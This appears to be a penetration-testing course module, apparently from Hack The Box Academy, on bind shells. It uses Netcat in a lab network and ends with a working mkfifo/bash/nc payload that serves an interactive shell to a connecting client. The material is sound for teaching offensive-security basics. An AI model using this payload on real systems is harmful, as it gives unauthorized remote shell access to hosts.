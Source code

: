 # Bind Shells
- [Bind Shells](#bind-shells)
  - [**What Is It?**](#what-is-it)
    - [**Bind Example**](#bind-example)
  - [**Practicing with GNU Netcat**](#practicing-with-gnu-netcat)
    - [**No. 1: Server - Target starting Netcat listener**](#no-1-server---target-starting-netcat-listener)
    - [**No. 2: Client - Attack box connecting to target**](#no-2-client---attack-box-connecting-to-target)
    - [**No. 3: Server - Target receiving connection from client**](#no-3-server---target-receiving-connection-from-client)
    - [**No. 4: Client - Attack box sending message Hello Academy**](#no-4-client---attack-box-sending-message-hello-academy)
    - [**No. 5: Server - Target receiving Hello Academy message**](#no-5-server---target-receiving-hello-academy-message)
- [**Establishing a Basic Bind Shell with Netcat**](#establishing-a-basic-bind-shell-with-netcat)
    - [**No. 1: Server - Binding a Bash shell to the TCP session**](#no-1-server---binding-a-bash-shell-to-the-tcp-session)
    - [**No. 2: Client - Connecting to bind shell on target**](#no-2-client---connecting-to-bind-shell-on-target)

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

---

## **What Is It?**

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

### **Bind Example**

![https://academy.hackthebox.com/storage/modules/115/bindshell.png](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

---

## **Practicing with GNU Netcat**

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

Once connected to the target box with ssh, start a Netcat listener:

### **No. 1: Server - Target starting Netcat listener**

```
Target@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

### **No. 2: Client - Attack box connecting to target**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.

---

# **Establishing a Basic Bind Shell with Netcat**

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

### **No. 2: Client - Connecting to bind shell on target**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.

Now, let's test our understanding of these concepts with some challenge questions.